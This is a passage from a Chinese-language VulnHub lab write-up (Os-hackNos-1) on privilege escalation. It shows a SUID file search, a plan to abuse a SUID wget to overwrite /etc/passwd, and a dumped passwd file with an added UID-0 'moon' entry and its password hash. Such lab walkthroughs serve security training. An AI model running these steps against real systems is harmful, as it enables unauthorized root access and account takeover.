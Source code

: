 试着提权，先看看suid提权，需要搜索到，带有s的文件，开始查找。

```
find / -perm -u=s -type f 2>/dev/null
```

![image-20230628232332862](vulnhub靶机 Os-hackNos-1.assets\image-20230628232332862.png)

发现wget普通用户也可执行

那么提权的方式就是通过下载目标靶机上的passwd，然后构造一个有root权限的用户加入到构造的passwd文件中，然后使用wget -O将内容重定向输入到/etc/passwd中



首先通过cat /etc/passwd获取靶机密码

```
www-data@hackNos:/var/www/html/drupal$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
james:x:1000:1000:james,,,:/home/james:/bin/bash
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
mysql:x:111:118:MySQL Server,,,:/nonexistent:/bin/false
moon:$1$moon$8F2YI9c3zhkkS9SOsKawY0:0:0:root:/root:/bin/bash
```

复制到本地生成文件passwd

在kali中生成密码
